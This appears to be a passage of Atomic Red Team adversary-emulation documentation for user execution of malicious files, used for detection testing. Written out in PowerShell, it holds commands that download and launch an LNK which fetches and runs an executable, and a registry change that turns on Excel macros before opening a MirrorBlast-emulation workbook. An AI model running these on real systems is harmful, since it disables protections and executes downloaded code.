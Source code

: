 Description: Microsoftt #{ms_product} must be installed
Check Prereq Commands:
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Get Prereq Commands:
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"


Atomic Test #10 - LNK Payload Download
This lnk files invokes powershell to download putty from the internet and opens the file. https://twitter.com/ankit_anubhav/status/1518932941090410496

Supported Platforms: Windows

auto_generated_guid: 581d7521-9c4b-420e-9695-2aec5241167f

Attack Commands: Run with powershell!
Invoke-WebRequest -OutFile $env:Temp\test10.lnk "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/bin/test10.lnk"
$file1 = "$env:Temp\test10.lnk"
Start-Process $file1
Start-Sleep -s 10
taskkill /IM a.exe /F
Cleanup Commands:
$file1 = "$env:Temp\test10.lnk"
$file2 = "$env:Temp\a.exe"
Remove-Item $file1 -ErrorAction Ignore
Remove-Item $file2 -ErrorAction Ignore


Atomic Test #11 - Mirror Blast Emulation
Emulates the JS -> MSI chain of the MirrorBlast T505 campaign by executing an xlsm file designed. Requires the 32 bit version of Office to run. MirrorBlast Campaign Analysis

Supported Platforms: Windows

auto_generated_guid: 24fd9719-7419-42dd-bce6-ab3463110b3c

Attack Commands: Run with powershell!
Cd "C:\ProgramData\Microsoft\Windows\Start Menu\Programs"
New-ItemProperty -Path Registry::HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office\16.0\Excel\Security -Name "VBAWarnings" -Value "1" -PropertyType DWORD -Force | Out-Null
& '.\Excel 2016.lnk' "PathToAtomicsFolder\T1204.002\bin\mirrorblast_emulation.xlsm"
